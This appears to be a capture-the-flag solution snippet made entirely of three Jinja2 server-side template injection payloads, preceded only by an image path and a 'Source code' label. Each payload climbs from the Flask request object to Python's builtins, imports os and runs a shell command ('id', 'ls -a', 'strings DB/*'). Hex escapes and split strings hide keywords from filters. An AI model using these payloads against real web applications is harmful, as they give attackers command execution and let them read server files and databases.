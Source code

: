 ```{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbu'+'iltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('po'+'pen')('id')|attr('read')()}}```
```{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbu'+'iltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('po'+'pen')('\x6c\x73\x20\x2d\x61')|attr('read')()}}```
```{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbu'+'iltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('po'+'pen')('\x73\x74\x72\x69\x6e\x67\x73\x20\x44\x42\x2f\x2a')|attr('read')()}}```
